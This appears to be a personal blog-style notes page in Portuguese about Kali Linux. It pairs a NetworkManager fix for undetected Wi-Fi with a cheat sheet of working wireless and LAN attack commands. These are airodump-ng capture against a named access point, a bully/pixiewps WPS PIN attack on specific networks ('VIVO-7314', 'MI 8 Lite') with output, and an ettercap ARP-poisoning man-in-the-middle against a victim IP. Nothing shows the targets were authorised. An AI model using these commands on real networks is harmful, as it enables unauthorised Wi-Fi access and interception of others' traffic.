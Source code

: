 ```yaml
---
title: "Kali"
date: 2019-01-01T00:00:00-03:00
last_modified_at: 2023-11-25T00:00:00-03:00
excerpt_separator: "<!--more-->"
categories:
  - IT
  - Hacks
tags:
  - firma
---
```


## _Bugs_

Em novembro de 2023 notei que o Kali não encontrava as redes. Lendo o _post_ [kali linux doesn't detect wireless networks](https://superuser.com/questions/892652/kali-linux-doesnt-detect-wireless-networks)

```shell
sudo nano /etc/NetworkManager/NetworkManager.conf
```

<br>

Alterar para..

```shell
[ifupdown]
managed=true
```

<br>

---

## Sniffing

```bash
# Vê os pacotes entre roteadores e devices
sudo airdump-ng wlan0mon

# Captura Pacotes
sudo airodump-ng --bssid {mac_address} --channel {channel number} --write {filename}  wlan0mon
sudo airodump-ng --bssid 90:F6:52:F0:C5:B4 --channel 1 --write my_network wlan0mon

# Abre os pacotes no Wireshark
```

<br>

---

## Bully

```bash
# Associação
sudo bully --bssid D8:C6:78:0F:73:14 --essid VIVO-7314 --eapfail --nofcs --pixiewps --channel 11 --verbosity 4 wlan0mon
#[!] Received disassociation/deauthentication from the AP
#[+] Rx(  M1  ) = 'EAPFail'   Next pin '20075361'

# Mi 8 Lite
sudo bully --bssid 5E:8F:53:F6:37:D0 --essid "MI 8 Lite" --eapfail --nofcs --pixiewps --channel 11 --verbosity 4 wlan0mon
```

<br>

---

## ARP Poison

[How Hackers SNiFF (capture) network traffic // MiTM attack](https://www.youtube.com/watch?v=-rSqbgI7oZM)

```bash
# Scan network looking for devices
sudo nmap -sn 192.168.0.1/24

# Man-in-the-Middle (MiTM) attack
sudo ettercap -T -S -i {interface} -M arp:remote /{ip router}// /{ip vítima}//
sudo ettercap -T -S -i wlan0mon -M arp:remote /192.168.0.1// /192.168.0.110//
#-T	text-only
#-S	no use ssl

# After capture using wireshark
sudo wireshark
```

